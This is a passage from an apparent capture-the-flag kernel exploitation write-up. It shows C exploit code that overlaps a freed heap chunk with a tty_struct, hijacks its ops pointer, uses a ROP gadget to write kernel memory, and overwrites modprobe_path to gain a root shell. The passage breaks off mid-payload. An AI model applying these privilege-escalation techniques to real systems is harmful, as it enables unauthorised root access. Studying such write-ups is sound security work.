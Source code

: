 Now allocating new `struct tty_struct`, it will overlap with `matrix2->data` because the latest freed 0x2e0-size chunk is `matrix2->data`.

Overwrite `.ops` of the new `struct tty_struct`, we can control RIP ( I will set `tty_struct->ops` = `matrix3->data` ).

```c
    ptmx_fd = open("/dev/ptmx",O_RDWR);
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    logInfo("pmtx = matrix2->data");


    //Preparing payload
    int _ = open("/dev/ptmx",O_RDWR);
    if(_ < 0)
        errExit("open ptmx");
    info3.rows = 0x2e0;
    close(_);
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    uint64_t chunk_addr3 = 0;
    readMATRIX64(fd3,&chunk_addr3,0x38);
    chunk_addr3 -= 0x38;
    logInfo("Chunk3 @ %p",(void *)chunk_addr3);
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);
```

By using `ROPgadget`, I see a useful gadget ( I don't know why `ROPgadget` is different from `gdb` :) ) :  

![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/be511d1a-e063-4765-86ad-cef2421a5de3)
![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/1c4b6148-404b-4097-b33e-19b44614fc54)
![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/64fc36c1-15c5-4cc1-a5db-391c1fbcadcf)

So, i will set `tty_struct->ops->ioctl` = `0xffffffff811571d9`.

Finally, using that gadget to overwrite `modprobe_path` to `/home/user/vjp` and get root shell :) :

```c
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);

    //Change /sbin/modprobe to /home/user/vjp
    char* inject = "/home/user/vjp";
    for(uint64_t i = 0 ; i < strlen(inject)/4+1; ++i){
        ioctl(ptmx_fd,*(uint32_t *)(inject+4*i),modprobe_path+4*i);
    }

    int vjpfd = open("/home/user/vjp",O_CREAT | O_RDWR);
    if(vjpfd < 0)
        errExit("open /home/user/vjp");
    dprintf(vjpfd,
        "#!/bin/sh\n"
```